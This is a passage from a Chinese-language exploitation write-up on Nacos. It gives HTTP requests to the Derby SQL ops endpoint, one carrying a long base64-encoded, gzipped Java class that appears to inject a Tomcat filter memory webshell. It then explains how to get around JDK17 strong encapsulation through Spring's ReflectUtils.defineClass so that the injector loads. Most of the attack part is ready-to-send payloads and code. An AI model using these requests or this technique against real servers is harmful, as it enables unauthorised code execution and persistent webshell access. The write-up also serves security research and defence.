vVVUzaEdxTG4rWE9JUDNaSEZUTmQ4ZnlPS1dycG9zanBaL3luRVBydSt4bDdkMGM2bUdIMGQ2N0ZVYzMzSUdJZHJSMUZYK2FZTTlpODgxTzN3T3lYSmJJWXZQTVltbnBObEI0MjM4MllnV0FtdkZBZWg1SnpSdzQwQWpiTHdmdTNBWktyQ0ZkTnRKMlVIS3JaenBwRVVoOG13alZ4ZUdjTG5obUMxMFhnVWQ4enE4M25EUk9yd0JiNlNVRUZOQXpqbklXV1BOdFRKRzMyUUZ5aUc4bVU2VURoekN0WGtIVnNyd2FERzJQT2ZBTWNhY3cvcVcvcFJ6TDVEOEN6SmsrT1lNYnNjWFRRZmJicU43Q1Vzc0NwekJ3ODJPNmpONHBMbkU1Nmk2RTArTzRvYzIzSTluQzc0NGVDYUxuOTJNcDN5T1VmeEtvTmxaNVhNd3dVZnhXeHV5K0dPelV1VlQ3Rms4MjZ6NG5PWFBqZUo1R3g3QWNqaytEVnNQZysxb0ZpK000RjgrSllzWFIxbTNHWmMzK0J4ZVlmTXBvOEp1eDJrODFqTWlITTJ1UFA4WlhDOTNyZlFZWmpXN1R3dG5qODg5SWtydjg1WDZYRmt4WXpmZml2RXVHUlZ6QkU2ZzJzNEFGbk96b3NKWG1oV0xjZ3RWa253cGQvN1pVK0o4dVppbmwrUVhjT1lZeW1vQzFhTmlwUVExbzltWis3aURLRy9FVWR6S2tmaytDWG1DejhrSHd6NHM1SE1YZzNVMzVMOXZndGpEdGIzYzdDdTU3VmZ4NTJvRzlUVnNmbFJLNktXTWZrclJxS2FQTWdjd1NnbGZaaTE5SElONENuRThoNFN3SXlXY1NJdVpPRWhOR2VIRmtLakFzQkZFMTdKbUhLWHVPeGt3cFpUaXhsMzB2cHV5VXhqQktZYlZIZGhocmE3RFE1Ui9ON0Z0b1hOUE00Z1V5bktSWXdQbnVQTzVDc1RSbDNDUHJFQWMzWXY3Wk41eWRJYkk3SENLZWZnS3Zzb0k4b2paK0JxK3pyaHBOK3EvYTR5bXVZeXk4NENDYnlwNFNNSERDaDVSOENpakVCaGpCU3FkYmxsaGo4WUEvZDZMS0ZOd1pJek9jazRtWlpncWJZemlVaU9HbmV4Ty9LS0tPTm5mbWxHTTU2MHljY0FyNm93MDk0b0dLN3RETXJ0bDJwdjVIVER6dTRXL3gwTkdTZW1xOFlwRyt6MHl5RzRTZkI4aGdWVWl2R0p0b1pSY2pTaVVZUlRzNm9MaXVGQTZsZlZMWVRiWGNBTnFtY3VOek9ZT1pyTGN1b3U1cm1DbENCZ1ozb2lOeHNqT2RiK29OdksvRnUyaWhwc2p5K2FCL1BGd1FOVG1zNTduMjZCTTdjS1V2a0pjWkRsampWRWx1SGZqWjZ4NUlGNVhjQ0NLdkdBaDFvbW04Zm9nZUY2STVueTdFREJvcHhCMlEwRmprQlBtRXV2empKc05OYXhRWHJIaEpDcTg0dUtUV0g2dWprRGt1dzhQRmpOdWxnRC9CUnJJQkJLVkdRQUEIABEBAAY8aW5pdD4BABUoTGphdmEvbGFuZy9TdHJpbmc7KVYMABMAFAoAEAAVAQADKClWAQATamF2YS9sYW5nL0V4Y2VwdGlvbgcAGAwAEwAXCgAEABoBAApnZXRDb250ZXh0AQASKClMamF2YS91dGlsL0xpc3Q7DAAcAB0KAAIAHgEADmphdmEvdXRpbC9MaXN0BwAgAQAIaXRlcmF0b3IBABYoKUxqYXZhL3V0aWwvSXRlcmF0b3I7DAAiACMLACEAJAEAEmphdmEvdXRpbC9JdGVyYXRvcgcAJgEAB2hhc05leHQBAAMoKVoMACgAKQsAJwAqAQAEbmV4dAEAFCgpTGphdmEvbGFuZy9PYmplY3Q7DAAsAC0LACcALgEACWdldEZpbHRlcgEAJihMamF2YS9sYW5nL09iamVjdDspTGphdmEvbGFuZy9PYmplY3Q7DAAwADEKAAIAMgEACWFkZEZpbHRlcgEAJyhMamF2YS9sYW5nL09iamVjdDtMamF2YS9sYW5nL09iamVjdDspVgwANAA1CgACADYBACYoKUxqYXZhL3V0aWwvTGlzdDxMamF2YS9sYW5nL09iamVjdDs%2BOwEAIGphdmEvbGFuZy9JbGxlZ2FsQWNjZXNzRXhjZXB0aW9uBwA5AQAfamF2YS9sYW5nL05vU3VjaE1ldGhvZEV4Y2VwdGlvbgcAOwEAK2phdmEvbGFuZy9yZWZsZWN0L0ludm9jYXRpb25UYXJnZXRFeGNlcHRpb24HAD0BABNqYXZhL3V0aWwvQXJyYXlMaXN0BwA%2FCgBAABoBABBqYXZhL2xhbmcvVGhyZWFkBwBCAQAKZ2V0VGhyZWFkcwgARAEADGludm9rZU1ldGhvZAEAOChMamF2YS9sYW5nL09iamVjdDtMamF2YS9sYW5nL1N0cmluZzspTGphdmEvbGFuZy9PYmplY3Q7DABGAEcKAAIASAEAE1tMamF2YS9sYW5nL1RocmVhZDsHAEoBAAdnZXROYW1lDABMAAYKAEMATQEAHENvbnRhaW5lckJhY2tncm91bmRQcm9jZXNzb3IIAE8BAAhjb250YWlucwEAGyhMamF2YS9sYW5nL0NoYXJTZXF1ZW5jZTspWgwAUQBSCgAQAFMBAAZ0YXJnZXQIAFUBAAVnZXRGVgwAVwBHCgACAFgBAAZ0aGlzJDAIAFoBAAhjaGlsZHJlbggAXAEAEWphdmEvdXRpbC9IYXNoTWFwBwBeAQAGa2V5U2V0AQARKClMamF2YS91dGlsL1NldDsMAGAAYQoAXwBiAQANamF2YS91dGlsL1NldAcAZAsAZQAkAQADZ2V0DABnADEKAF8AaAEACGdldENsYXNzAQATKClMamF2YS9sYW5nL0NsYXNzOwwAagBrCgAEAGwBAA9qYXZhL2xhbmcvQ2xhc3MHAG4KAG8ATQEAD1N0YW5kYXJkQ29udGV4dAgAcQEAA2FkZAEAFShMamF2YS9sYW5nL09iamVjdDspWgwAcwB0CwAhAHUBABVUb21jYXRFbWJlZGRlZENvbnRleHQIAHcBABVnZXRDb250ZXh0Q2xhc3NMb2FkZXIBABkoKUxqYXZhL2xhbmcvQ2xhc3NMb2FkZXI7DAB5AHoKAEMAewEACHRvU3RyaW5nDAB9AAYKAG8AfgEAGVBhcmFsbGVsV2ViYXBwQ2xhc3NMb2FkZXIIAIABAB9Ub21jYXRFbWJlZGRlZFdlYmFwcENsYXNzTG9hZGVyCACCAQAJcmVzb3VyY2VzCACEAQAHY29udGV4dAgAhgEAGmphdmEvbGFuZy9SdW50aW1lRXhjZXB0aW9uBwCIAQAYKExqYXZhL2xhbmcvVGhyb3dhYmxlOylWDAATAIoKAIkAiwEAE2phdmEvbGFuZy9UaHJvd2FibGUHAI0BAA1jdXJyZW50VGhyZWFkAQAUKClMamF2YS9sYW5nL1RocmVhZDsMAI8AkAoAQwCRAQAOZ2V0Q2xhc3NMb2FkZXIMAJMAegoAbwCUDAAJAAYKAAIAlgEAFWphdmEvbGFuZy9DbGFzc0xvYWRlcgcAmAEACWxvYWRDbGFzcwEAJShMamF2YS9sYW5nL1N0cmluZzspTGphdmEvbGFuZy9DbGFzczsMAJoAmwoAmQCcDAAMAAYKAAIAngEADGRlY29kZUJhc2U2NAEAFihMamF2YS9sYW5nL1N0cmluZzspW0IMAKAAoQoAAgCiAQAOZ3ppcERlY29tcHJlc3MBAAYoW0IpW0IMAKQApQoAAgCmAQALZGVmaW5lQ2xhc3MIAKgBAAJbQgcAqgEAEWphdmEvbGFuZy9JbnRlZ2VyBwCsAQAEVFlQRQEAEUxqYXZhL2xhbmcvQ2xhc3M7DACuAK8JAK0AsAEAEWdldERlY2xhcmVkTWV0aG9kAQBAKExqYXZhL2xhbmcvU3RyaW5nO1tMamF2YS9sYW5nL0NsYXNzOylMamF2YS9sYW5nL3JlZmxlY3QvTWV0aG9kOwwAsgCzCgBvALQBABhqYXZhL2xhbmcvcmVmbGVjdC9NZXRob2QHALYBAA1zZXRBY2Nlc3NpYmxlAQAEKFopVgwAuAC5CgC3ALoBAAd2YWx1ZU9mAQAWKEkpTGphdmEvbGFuZy9JbnRlZ2VyOwwAvAC9CgCtAL4BAAZpbnZva2UBADkoTGphdmEvbGFuZy9PYmplY3Q7W0xqYXZhL2xhbmcvT2JqZWN0OylMamF2YS9sYW5nL09iamVjdDsMAMAAwQoAtwDCAQALbmV3SW5zdGFuY2UMAMQALQoAbwDFAQANZ2V0RmlsdGVyTmFtZQEAJihMamF2YS9sYW5nL1N0cmluZzspTGphdmEvbGFuZy9TdHJpbmc7AQABLggAyQEAC2xhc3RJbmRleE9mAQAVKExqYXZhL2xhbmcvU3RyaW5nOylJDADLAMwKABAAzQEACXN1YnN0cmluZwEAFShJKUxqYXZhL2xhbmcvU3RyaW5nOwwAzwDQCgAQANEBACBqYXZhL2xhbmcvQ2xhc3NOb3RGb3VuZEV4Y2VwdGlvbgcA0wEAIGphdmEvbGFuZy9JbnN0YW50aWF0aW9uRXhjZXB0aW9uBwDVAQARZ2V0Q2F0YWxpbmFMb2FkZXIMANcAegoAAgDYDADHAMgKAAIA2gEADWZpbmRGaWx0ZXJEZWYIANwBAF0oTGphdmEvbGFuZy9PYmplY3Q7TGphdmEvbGFuZy9TdHJpbmc7W0xqYXZhL2xhbmcvQ2xhc3M7W0xqYXZhL2xhbmcvT2JqZWN0OylMamF2YS9sYW5nL09iamVjdDsMAEYA3goAAgDfAQAvb3JnLmFwYWNoZS50b21jYXQudXRpbC5kZXNjcmlwdG9yLndlYi5GaWx0ZXJEZWYIAOEBAAdmb3JOYW1lDADjAJsKAG8A5AEAL29yZy5hcGFjaGUudG9tY2F0LnV0aWwuZGVzY3JpcHRvci53ZWIuRmlsdGVyTWFwCADmAQAkb3JnLmFwYWNoZS5jYXRhbGluYS5kZXBsb3kuRmlsdGVyRGVmCADoAQAkb3JnLmFwYWNoZS5jYXRhbGluYS5kZXBsb3kuRmlsdGVyTWFwCADqAQA9KExqYXZhL2xhbmcvU3RyaW5nO1pMamF2YS9sYW5nL0NsYXNzTG9hZGVyOylMamF2YS9sYW5nL0NsYXNzOwwA4wDsCgBvAO0BAA1zZXRGaWx0ZXJOYW1lCADvAQAOc2V0RmlsdGVyQ2xhc3MIAPEBAAxhZGRGaWx0ZXJEZWYIAPMBAA1zZXREaXNwYXRjaGVyCAD1AQAHUkVRVUVTVAgA9wEADWFkZFVSTFBhdHRlcm4IAPkMAAUABgoAAgD7AQAwb3JnLmFwYWNoZS5jYXRhbGluYS5jb3JlLkFwcGxpY2F0aW9uRmlsdGVyQ29uZmlnCAD9AQAXZ2V0RGVjbGFyZWRDb25zdHJ1Y3RvcnMBACIoKVtMamF2YS9sYW5nL3JlZmxlY3QvQ29uc3RydWN0b3I7DAD%2FAQAKAG8BAQEADXNldFVSTFBhdHRlcm4IAQMBABJhZGRGaWx0ZXJNYXBCZWZvcmUIAQUBAAxhZGRGaWx0ZXJNYXAIAQcBAB1qYXZhL2xhbmcvcmVmbGVjdC9Db25zdHJ1Y3RvcgcBCQoBCgC6AQAnKFtMamF2YS9sYW5nL09iamVjdDspTGphdmEvbGFuZy9PYmplY3Q7DADEAQwKAQoBDQEADWZpbHRlckNvbmZpZ3MIAQ8BAA1qYXZhL3V0aWwvTWFwBwERAQADcHV0AQA4KExqYXZhL2xhbmcvT2JqZWN0O0xqYXZhL2xhbmcvT2JqZWN0OylMamF2YS9sYW5nL09iamVjdDsMARMBFAsBEgEVAQAPcHJpbnRTdGFja1RyYWNlDAEXABcKABkBGAEAIFtMamF2YS9sYW5nL3JlZmxlY3QvQ29uc3RydWN0b3I7BwEaAQAWc3VuLm1pc2MuQkFTRTY0RGVjb2RlcggBHAEADGRlY29kZUJ1ZmZlcggBHgEACWdldE1ldGhvZAwBIACzCgBvASEBABBqYXZhLnV0aWwuQmFzZTY0CAEjAQAKZ2V0RGVjb2RlcggBJQEABmRlY29kZQgBJwEAHWphdmEvaW8vQnl0ZUFycmF5T3V0cHV0U3RyZWFtBwEpCgEqABoBABxqYXZhL2lvL0J5dGVBcnJheUlucHV0U3RyZWFtBwEsAQAFKFtCKVYMABMBLgoBLQEvAQAdamF2YS91dGlsL3ppcC9HWklQSW5wdXRTdHJlYW0HATEBABgoTGphdmEvaW8vSW5wdXRTdHJlYW07KVYMABMBMwoBMgE0AQAEcmVhZAEABShbQilJDAE2ATcKATIBOAEABXdyaXRlAQAHKFtCSUkpVgwBOgE7CgEqATwBAAt0b0J5dGVBcnJheQEABCgpW0IMAT4BPwoBKgFAAQAEZ2V0RgEAPyhMamF2YS9sYW5nL09iamVjdDtMamF2YS9sYW5nL1N0cmluZzspTGphdmEvbGFuZy9yZWZsZWN0L0ZpZWxkOwwBQgFDCgACAUQBABdqYXZhL2xhbmcvcmVmbGVjdC9GaWVsZAcBRgoBRwC6CgFHAGgBAB5qYXZhL2xhbmcvTm9TdWNoRmllbGRFeGNlcHRpb24HAUoBABBnZXREZWNsYXJlZEZpZWxkAQAtKExqYXZhL2xhbmcvU3RyaW5nOylMamF2YS9sYW5nL3JlZmxlY3QvRmllbGQ7DAFMAU0KAG8BTgEADWdldFN1cGVyY2xhc3MMAVAAawoAbwFRCgFLABUBABJnZXREZWNsYXJlZE1ldGhvZHMBAB0oKVtMamF2YS9sYW5nL3JlZmxlY3QvTWV0aG9kOwwBVAFVCgBvAVYKALcATQEABmVxdWFscwwBWQB0CgAQAVoBABFnZXRQYXJhbWV0ZXJUeXBlcwEAFCgpW0xqYXZhL2xhbmcvQ2xhc3M7DAFcAV0KALcBXgoAPAAVAQAKZ2V0TWVzc2FnZQwBYQAGCgA6AWIKAIkAFQEAG1tMamF2YS9sYW5nL3JlZmxlY3QvTWV0aG9kOwcBZQEACDxjbGluaXQ%2BCgACABoBAARDb2RlAQAKRXhjZXB0aW9ucwEADVN0YWNrTWFwVGFibGUBAAlTaWduYXR1cmUAIQACAAQAAAAAABAAAQAFAAYAAQFpAAAADwABAAEAAAADEgiwAAAAAAABAAkABgABAWkAAAAPAAEAAQAAAAMSC7AAAAAAAAEADAAGAAIBaQAAABYAAwABAAAACrsAEFkSErcAFrAAAAAAAWoAAAAEAAEADgABABMAFwABAWkAAAB2AAMABQAAADYqtwAbKrYAH0wruQAlAQBNLLkAKwEAmQAbLLkALwEATiottwAzOgQqLRkEtgA3p%2F%2FipwAETLEAAQAEADEANAAZAAEBawAAACYABP8AEAADBwACBwAhBwAnAAAg%2FwACAAEHAAIAAQcAGfwAAAcABAABABwAHQADAWkAAAH5AAMADgAAAXm7AEBZtwBBTBJDEkW4AEnAAEvAAEtNAU4sOgQZBL42BQM2BhUGFQWiAUEZBBUGMjoHGQe2AE4SULYAVJkAsy3HAK8ZBxJWuABZElu4AFkSXbgAWcAAXzoIGQi2AGO5AGYBADoJGQm5ACsBAJkAgBkJuQAvAQA6ChkIGQq2AGkSXbgAWcAAXzoLGQu2AGO5AGYBADoMGQy5ACsBAJkATRkMuQAvAQA6DRkLGQ22AGlOLcYAGi22AG22AHAScrYAVJkACystuQB2AgBXLcYAGi22AG22AHASeLYAVJkACystuQB2AgBXp%2F%2Bvp%2F98pwB3GQe2AHzGAG8ZB7YAfLYAbbYAfxKBtgBUmgAWGQe2AHy2AG22AH8Sg7YAVJkASRkHtgB8EoW4AFkSh7gAWU4txgAaLbYAbbYAcBJytgBUmQALKy25AHYCAFctxgAaLbYAbbYAcBJ4tgBUmQALKy25AHYCAFeEBgGn%2Fr6nAA86BLsAiVkZBLcAjL8rsAABABgBaAFrABkAAQFrAAAAZgAO%2FwAjAAcHAAIHAEAHAEsHAAQHAEsBAQAA%2FgBABwBDBwBfBwAn%2FgAvBwAEBwBfBwAn%2FAA1BwAEGvoAAvgAAvkAAi0qGvoABf8AAgAEBwACBwBABwBLBwAEAAEHABn%2BAAsHAEsBAQFqAAAACAADADoAPAA%2BAWwAAAACADgAAgAwADEAAQFpAAAA4QAGAAgAAACEAU24AJK2AHxOLccACyu2AG22AJVOLSq2AJe2AJ1NpwBkOgQqtgCfuACjuACnOgUSmRKpBr0Ab1kDEqtTWQSyALFTWQWyALFTtgC1OgYZBgS2ALsZBi0GvQAEWQMZBVNZBAO4AL9TWQUZBb64AL9TtgDDwABvOgcZB7YAxk2nAAU6BSywAAIAFQAeACEAGQAjAH0AgACOAAEBawAAADsABP0AFQUHAJn%2FAAsABAcAAgcABAcAbwcAmQABBwAZ%2FwBeAAUHAAIHAAQHAAQHAJkHABkAAQcAjvoAAQABAMcAyAABAWkAAAAvAAMAAwAAABorEsq2AFSZABIrEsq2AM49KxwEYLYA0rArsAAAAAEBawAAAAMAARgAAQA0ADUAAgFpAAACqAAHAAsAAAHWKrYA2U4qtgCXOgQqGQS2ANs6BSsS3QS9AG9ZAxIQUwS9AARZAxkFU7gA4MYABLGnAAU6CBLiuADltgDGOgYS57gA5bYAxjoHpwA2OggS6bgA5bYAxjoGEuu4AOW2AMY6B6cAHToJEukELbgA7rYAxjoGEusELbgA7rYAxjoHGQYS8AS9AG9ZAxIQUwS9AARZAxkFU7gA4FcZBhLyBL0Ab1kDEhBTBL0ABFkDGQRTuADgVysS9AS9AG9ZAxkGtgBtUwS9AARZAxkGU7gA4FcZBxLwBL0Ab1kDEhBTBL0ABFkDGQVTuADgVxkHEvYEvQBvWQMSEFMEvQAEWQMS%2BFO4AOBXGQcS%2BgS9AG9ZAxIQUwS9AARZAyq2APxTuADgVxL%2BuADltgECOginAC46CRkHEwEEBL0Ab1kDEhBTBL0ABFkDKrYA%2FFO4AOBXEv4ELbgA7rYBAjoIKxMBBgS9AG9ZAxkHtgBtUwS9AARZAxkHU7gA4FenACI6CSsTAQgEvQBvWQMZB7YAbVMEvQAEWQMZB1O4AOBXGQgDMgS2AQsZCAMyBb0ABFkDK1NZBBkGU7YBDjoJKxMBELgAWcABEjoKGQoZBRkJuQEWAwBXpwAKOggZCLYBGbEABgATAC4AMgAZADQASABLABkATQBhAGQAGQECASgBKwAZAVYBcwF2ABkAfgHLAc4AGQABAWsAAACQAAz%2BAC8HAJkHABAHABBCBwAZAVYHABn%2FABgACQcAAgcABAcABAcAmQcAEAcAEAAABwAZAAEHABn%2FABkACAcAAgcABAcABAcAmQcAEAcAEAcABAcABAAA9wCsBwAZ%2FAAqBwEbXwcAGR7%2FADgACAcAAgcABAcABAcAmQcAEAcAEAcABAcABAABBwAZ%2FAAGBwAEAWoAAAAMAAUAPgA8ADoA1ADWAAEA1wB6AAIBaQAAAGYAAgAEAAAAOBJDEkW4AEnAAEvAAEtMAU0DPh0rvqIAISsdMrYAThJQtgBUmQANKx0ytgB8TacACYQDAaf%2F3yywAAAAAQFrAAAAHAAD%2FgASBwBLBQEd%2FwAFAAQHAAIHAEsHAJkBAAABagAAAAgAAwA8AD4AOgAIAKAAoQACAWkAAACPAAYABAAAAG8TAR24AOVMKxMBHwS9AG9ZAxIQU7YBIiu2AMYEvQAEWQMqU7YAw8AAq8AAq7BNEwEkuADlTCsTASYDvQBvtgEiAQO9AAS2AMNOLbYAbRMBKAS9AG9ZAxIQU7YBIi0EvQAEWQMqU7YAw8AAq8AAq7AAAQAAACwALQAZAAEBawAAAAYAAW0HABkBagAAAAoABADUADwAPgA6AAkApAClAAIBaQAAAGwABAAGAAAAPrsBKlm3AStMuwEtWSq3ATBNuwEyWSy3ATVOEQEAvAg6BC0ZBLYBOVk2BZsADysZBAMVBbYBPaf%2F6yu2AUGwAAAAAQFrAAAAHAAC%2FwAhAAUHAKsHASoHAS0HATIHAKsAAPwAFwEBagAAAAQAAQAOAAgAVwBHAAIBaQAAAB0AAgADAAAAESoruAFFTSwEtgFILCq2AUmwAAAAAAFqAAAABAABABkACAFCAUMAAgFpAAAATwADAAQAAAAoKrYAbU0sxgAZLCu2AU9OLQS2AUgtsE4stgFSTaf%2F6bsBS1krtwFTvwABAAkAFQAWAUsAAQFrAAAADQAD%2FAAFBwBvUAcBSwgBagAAAAQAAQFLACgARgBHAAIBaQAAABoABAACAAAADiorA70AbwO9AAS4AOCwAAAAAAFqAAAACAADADwAOgA%2BACkARgDeAAIBaQAAASMAAwAJAAAAyirBAG%2BZAAoqwABvpwAHKrYAbToEAToFGQQ6BhkFxwBkGQbGAF8sxwBDGQa2AVc6BwM2CBUIGQe%2BogAuGQcVCDK2AVgrtgFbmQAZGQcVCDK2AV%2B%2BmgANGQcVCDI6BacACYQIAaf%2F0KcADBkGKyy2ALU6Baf%2FqToHGQa2AVI6Bqf%2FnRkFxwAMuwA8WSu3AWC%2FGQUEtgC7KsEAb5kAGhkFAS22AMOwOge7AIlZGQe2AWO3AWS%2FGQUqLbYAw7A6B7sAiVkZB7YBY7cBZL8AAwAlAHIAdQA8AJwAowCkADoAswC6ALsAOgABAWsAAAAvAA4OQwcAb%2F4ACAcAbwcAtwcAb%2F0AFwcBZgEsBfkAAghCBwA8Cw1UBwA6DkcHADoBagAAAAgAAwA8AD4AOgAIAWcAFwABAWkAAAAVAAIAAAAAAAm7AAJZtwFoV7EAAAAAAAA%3D%27%29%2C%20K%28%29%29%20as%20a%20from%20config%5Finfo HTTP/1.1
Host: 127.0.0.1:8848
Accept: */*


```


```http
GET /nacos/v1/cs/ops/derby?sql=select%20count%28%2A%29%20as%20b%2C%20UMVLFN%28%27org%2Eapache%2Ebeanutils%2Ecoyote%2Eannotation%2EJsonSerializee2fa8c0ea8e94645bd8a8b8e9088ff3a%27%2C%20true%2C%20UMVLCL%28%29%29%20as%20a%20from%20config%5Finfo%20%2F%2Alimit%2A%2F HTTP/1.1
Host: 127.0.0.1:8848
Accept: */*


```



## JDK17 强封装绕过

把同样的语句放到 JDK17 环境的 Nacos 上执行时，调用三参数的 `ReflectUtils.defineClass` 会直接报错

```text
org.springframework.cglib.core.CodeGenerationException: java.lang.reflect.InaccessibleObjectException-->Unable to make protected final java.lang.Class java.lang.ClassLoader.defineClass(java.lang.String,byte[],int,int,java.security.ProtectionDomain) throws java.lang.ClassFormatError accessible: module java.base does not "opens java.lang" to unnamed module
```

如果在 Nacos 2.0.4 这类使用 Spring 5.2.x 的版本上，报错信息还会变成 `Cannot invoke "Object.getClass()" because "cause" is null`，众所周知，这是因为 JDK17 默认强封装机制。

而在 Derby 的 `CREATE FUNCTION ... EXTERNAL NAME` 中，只允许绑定 `public static` 方法，像 `MethodHandles.Lookup#defineClass`、`Unsafe#defineAnonymousClass` 或 `Unsafe#putObject` 这些全都是实例方法，无法在 SQL 里直接映射成函数调用。

要解决这个问题，我们来看 Nacos 2.3.2 自带的 `spring-core-5.3.31.jar` 中 `org.springframework.cglib.core.ReflectUtils` 的完整实现

```java
// spring-core-5.3.31/org/springframework/cglib/core/ReflectUtils.java
static {
    Method privateLookupIn;
    Method lookupDefineClass;
    Method classLoaderDefineClass;
    Throwable throwable = null;
    try {
        privateLookupIn = (Method) AccessController.doPrivileged(new PrivilegedExceptionAction() {
            public Object run() throws Exception {
                try {
                    return MethodHandles.class.getMethod("privateLookupIn", Class.class, MethodHandles.Lookup.class);
                }
                catch (NoSuchMethodException ex) {
                    return null;
                }
            }
        });
        lookupDefineClass = (Method) AccessController.doPrivileged(new PrivilegedExceptionAction() {
            public Object run() throws Exception {
                try {
                    return MethodHandles.Lookup.class.getMethod("defineClass", byte[].class);
                }
                catch (NoSuchMethodException ex) {
                    return null;
                }
            }
        });
        classLoaderDefineClass = (Method) AccessController.doPrivileged(new PrivilegedExceptionAction() {
            public Object run() throws Exception {
                return ClassLoader.class.getDeclaredMethod("defineClass",
                        String.class, byte[].class, Integer.TYPE, Integer.TYPE, ProtectionDomain.class);
            }
        });
    }
    catch (Throwable t) {
        privateLookupIn = null;
        lookupDefineClass = null;
        classLoaderDefineClass = null;
        throwable = t;
    }

    privateLookupInMethod = privateLookupIn;
    lookupDefineClassMethod = lookupDefineClass;
    classLoaderDefineClassMethod = classLoaderDefineClass;
    THROWABLE = throwable;
    PROTECTION_DOMAIN = getProtectionDomain(ReflectUtils.class);

    AccessController.doPrivileged(new PrivilegedAction() {
        public Object run() {
            Method[] methods = Object.class.getDeclaredMethods();
            for (Method method : methods) {
                if ("finalize".equals(method.getName())
                        || (method.getModifiers() & (Modifier.FINAL | Modifier.STATIC)) > 0) {
                    continue;
                }
                OBJECT_METHODS.add(method);
            }
            return null;
        }
    });
}

public static Class defineClass(String className, byte[] b, ClassLoader loader) throws Exception {
    return defineClass(className, b, loader, null, null);
}

public static Class defineClass(String className, byte[] b, ClassLoader loader,
        ProtectionDomain protectionDomain) throws Exception {

    return defineClass(className, b, loader, protectionDomain, null);
}

@SuppressWarnings({"deprecation", "serial"})
public static Class defineClass(String className, byte[] b, ClassLoader loader,
        ProtectionDomain protectionDomain, Class<?> contextClass) throws Exception {

    Class c = null;
    Throwable t = THROWABLE;

    // Preferred option: JDK 9+ Lookup.defineClass API if ClassLoader matches
    if (contextClass != null && contextClass.getClassLoader() == loader &&
            privateLookupInMethod != null && lookupDefineClassMethod != null) {
        try {
            MethodHandles.Lookup lookup = (MethodHandles.Lookup)
                    privateLookupInMethod.invoke(null, contextClass, MethodHandles.lookup());
            c = (Class) lookupDefineClassMethod.invoke(lookup, b);
        }
        catch (InvocationTargetException ex) {
            Throwable target = ex.getTargetException();
            if (target.getClass() != LinkageError.class && target.getClass() != IllegalArgumentException.class) {
                throw new CodeGenerationException(target);
            }
            // in case of plain LinkageError (class already defined)
            // or IllegalArgumentException (class in different package):
            // fall through to traditional ClassLoader.defineClass below
            t = target;
        }
        catch (Throwable ex) {
            throw new CodeGenerationException(ex);
        }
    }

    // Direct defineClass attempt on the target Classloader
    if (c == null) {
        if (protectionDomain == null) {
            protectionDomain = PROTECTION_DOMAIN;
        }

        // Look for publicDefineClass(String name, byte[] b, ProtectionDomain protectionDomain)
        try {
            Method publicDefineClass = loader.getClass().getMethod(
                    "publicDefineClass", String.class, byte[].class, ProtectionDomain.class);
            c = (Class) publicDefineClass.invoke(loader, className, b, protectionDomain);
        }
        catch (InvocationTargetException ex) {
            if (!(ex.getTargetException() instanceof UnsupportedOperationException)) {
                throw new CodeGenerationException(ex.getTargetException());
            }
            // in case of UnsupportedOperationException, fall through
            t = ex.getTargetException();
        }
        catch (Throwable ex) {
            // publicDefineClass method not available -> fall through
            t = ex;
        }

        // Classic option: protected ClassLoader.defineClass method
        if (c == null && classLoaderDefineClassMethod != null) {
            Object[] args = new Object[]{className, b, 0, b.length, protectionDomain};
            try {
                if (!classLoaderDefineClassMethod.isAccessible()) {
                    classLoaderDefineClassMethod.setAccessible(true);
                }
                c = (Class) classLoaderDefineClassMethod.invoke(loader, args);
            }
            catch (InvocationTargetException ex) {
                throw new CodeGenerationException(ex.getTargetException());
            }
            catch (Throwable ex) {
                // Fall through if setAccessible fails with InaccessibleObjectException on JDK 9+
                // (on the module path and/or with a JVM bootstrapped with --illegal-access=deny)
                if (!ex.getClass().getName().endsWith("InaccessibleObjectException")) {
                    throw new CodeGenerationException(ex);
                }
                t = ex;
            }
        }
    }

    // Fallback option: JDK 9+ Lookup.defineClass API even if ClassLoader does not match
    if (c == null && contextClass != null && contextClass.getClassLoader() != loader &&
            privateLookupInMethod != null && lookupDefineClassMethod != null) {
        try {
            MethodHandles.Lookup lookup = (MethodHandles.Lookup)
                    privateLookupInMethod.invoke(null, contextClass, MethodHandles.lookup());
            c = (Class) lookupDefineClassMethod.invoke(lookup, b);
        }
        catch (InvocationTargetException ex) {
            Throwable target = ex.getTargetException();
            if (target.getClass() != LinkageError.class && target.getClass() != IllegalAccessException.class) {
                throw new CodeGenerationException(target);
            }
            throw new CodeGenerationException(target) {
                @Override
                public String getMessage() {
                    return "ClassLoader mismatch for [" + contextClass.getName() +
                            "]: JVM should be started with --add-opens=java.base/java.lang=ALL-UNNAMED " +
                            "for ClassLoader.defineClass to be accessible on " + loader.getClass().getName() +
                            "; consider co-locating the affected class in that target ClassLoader instead.";
                }
            };
        }
        catch (Throwable ex) {
            throw new CodeGenerationException(ex);
        }
    }

    // No defineClass variant available at all?
    if (c == null) {
        throw new CodeGenerationException(t);
    }

    // Force static initializers to run.
    Class.forName(className, true, loader);
    return c;
}
```

可以看到三参数的 `defineClass(String, byte[], ClassLoader)` 内部其实是把 `protectionDomain` 和 `contextClass` 都传了 `null`，然后去调五参数的重载，所以必然会掉进中间反射 `ClassLoader.defineClass` 的分支，在 JDK17 下触发 `InaccessibleObjectException`。

但如果我们直接映射五参数的 `ReflectUtils.defineClass(String, byte[], ClassLoader, ProtectionDomain, Class)`，并且传入非空的 `contextClass`，它就会走最上面的第一个分支

```java
MethodHandles.Lookup lookup = (MethodHandles.Lookup)
        privateLookupInMethod.invoke(null, contextClass, MethodHandles.lookup());
c = (Class) lookupDefineClassMethod.invoke(lookup, b);
```

`MethodHandles.privateLookupIn` 和 `Lookup.defineClass` 是 JDK 9+ 官方提供的标准公开 API（`public` 方法），用来在不打破模块封装的前提下向指定上下文所在的包动态定义类。只要满足两个条件，就能完全避开 `ClassLoader.defineClass` 的反射限制

1. `contextClass.getClassLoader() == loader`，即传入的 `contextClass` 的类加载器必须和第三个参数 `loader` 一致；
2. 待加载字节码的类名所在的包（package），必须与 `contextClass` 所在的包完全相同，否则 `Lookup.defineClass` 会抛 `IllegalArgumentException`（提示不同包）。

在 Nacos 的单机 jar 包中，`org.springframework.boot.loader.Launcher` 位于 fat jar 根目录，由系统类加载器 `AppClassLoader` 加载，通过单参数的 `Class.forName('org.springframework.boot.loader.Launcher')` 就能直接拿到。于是我们可以这样配合

- 将 `g()` 绑定为 `ClassLoader.getSystemClassLoader()`，返回 `AppClassLoader`；
- 将 `contextClass` 设为 `n('org.springframework.boot.loader.Launcher')`，它的类加载器同样是 `AppClassLoader`，满足 `contextClass.getClassLoader() == loader`；
- 在生成内存马注入器字节码时，把注入器的类名指定为同包下的 `org.springframework.boot.loader.xxxx`；
- 第四个参数 `ProtectionDomain` 直接传 `null`。

